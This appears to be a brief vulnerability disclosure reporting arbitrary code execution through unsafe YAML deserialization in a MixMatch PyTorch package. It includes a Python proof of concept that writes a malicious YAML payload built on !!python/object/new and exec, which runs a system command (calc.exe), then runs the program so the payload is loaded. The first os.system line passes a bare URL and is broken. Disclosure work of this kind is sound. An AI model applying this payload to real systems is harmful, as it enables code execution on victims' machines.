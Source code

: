 # Description

`Mixmatch-pytorch` is an unofficial implementation of MixMatch with Pytorch. The package is vulnerable to `Arbitary Code Execution` due to insecure yaml desearilization.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

_steps to reproduce:_
```python
import os

os.system('https://github.com/Gooongna/MixMatch-Pytorch-Implementation')
os.chdir('MixMatch-Pytorch-Implementation/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""

open('config.yml','w+').write(payload)
os.system('python3 main.py 1337')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
